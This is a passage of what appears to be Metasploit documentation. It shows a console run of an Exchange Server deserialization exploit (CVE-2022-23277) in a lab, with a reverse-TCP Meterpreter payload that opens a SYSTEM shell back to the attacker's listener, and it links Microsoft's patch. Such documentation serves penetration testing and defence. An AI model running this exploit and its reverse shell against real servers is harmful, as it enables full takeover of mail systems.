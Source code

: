 ```
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.2.986.15 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAACLmD9luiUIToCqtjHJMHTFAAADDlsC
[+] ID value for Inbox folder is AQMkAGMzMmEwZDQyLTJmMmYtNDdlNi04Nzg0LTNiMmNmMTkwZmNjAGIALgAAAwy2SlsLo7NNtRvmAZGoLDABAIuYP2W6JQhOgKq2MckwdMUAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:63854) at 2022-08-16 15:49:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE2019
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x86/windows
meterpreter > 
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b
